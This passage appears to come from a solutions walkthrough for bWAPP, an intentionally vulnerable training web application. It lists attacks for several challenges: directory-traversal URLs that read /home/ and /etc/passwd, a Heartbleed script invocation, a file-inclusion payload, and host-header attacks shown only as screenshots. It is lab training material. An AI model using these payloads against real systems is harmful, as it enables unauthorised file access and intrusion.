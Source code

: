 ### 💀  Base64 Encoding (Secret) 💀

Use Burp to get cookie

![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/insecure_crypt_storage_3.png)

### 💀  Heartbleed Vulnerability 💀

Use the heartbleed.py script found in the /evil directory

```
python heartbleed.py [ip]
```

# A7 - Missing Functional Level Access Control

### 💀  Directory Traversal - Directories 💀

directory_traversal_2.php

```
/bWAPP/directory_traversal_2.php?directory=../../../../home/
```

### 💀  Directory Traversal - Files 💀

directory_traversal_1.php

```
/bWAPP/directory_traversal_1.php?page=../../../../../etc/passwd
```

### 💀  Host Header Attack (Cache Poisoning) 💀

hostheader_1.php

![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/hostheader_1_1.png)

### 💀  Host Header Attack (Reset Poisoning) 💀

hostheader_2.php

![]()

### 💀  Remote & Local File Inclusion (RFI/LFI) 💀

Copy rfi.txt to rfi.php, it appears PHP automatically adds the suffix .php.

```
bWAPP/rlfi.php?language=../evil/rfi
```

### 💀  Restrict Device Access 💀
